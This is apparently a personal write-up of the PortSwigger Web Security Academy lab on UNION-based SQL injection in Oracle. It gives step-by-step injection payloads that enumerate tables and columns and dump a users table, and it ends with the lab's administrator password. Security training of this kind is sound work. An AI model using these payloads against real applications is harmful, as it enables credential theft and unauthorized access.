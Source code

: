 ```yaml
---
title: 'Lab: SQL injection attack, listing the database contents on Oracle'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection attack, listing the database contents on Oracle
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description:  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. 
* Goal:  To solve the lab, log in as the administrator user.
* Hint: There is a built-in table on Oracle called dual which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

## Exp
1. Determine # of columns
Payload: `?category=Lifestyle' union select NULL,NULL from dual--`

2. Determine which column contained text string
Payload: `?category=Lifestyle' union select 'a','b'from dual--`

3. According to [cheat sheet](https://portswigger.net/web-security/sql-injection/examining-the-database)
We can use `all_tables` to search `table_name`
For instance: `SELECT * FROM all_tables`
Payload: `?category=Lifestyle' union select table_name,NULL from all_tables--`
    :::spoiler Result
    ![](https://i.imgur.com/Qbp5dqq.png)
    :::
4. Then tried the specific one - `USERS_LXJEEY`
Payload: `?category=Gifts' union SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_LXJEEY'--
`
    :::spoiler Result
    ![](https://i.imgur.com/M1ZoLph.png)
    :::
5. Tried dig deeper
Payload: `?category=Gifts' union SELECT USERNAME_YRYUYR,PASSWORD_OUTVCI FROM USERS_LXJEEY--
`
    :::spoiler Result
    ![](https://i.imgur.com/sbtaeGi.png)
    :::
Finally, we know the password of `administrator` is `z0mtqaim65dnb4yo034l`
:::spoiler Success Screenshot
![](https://i.imgur.com/cEOjCoq.png)
:::

## Reference
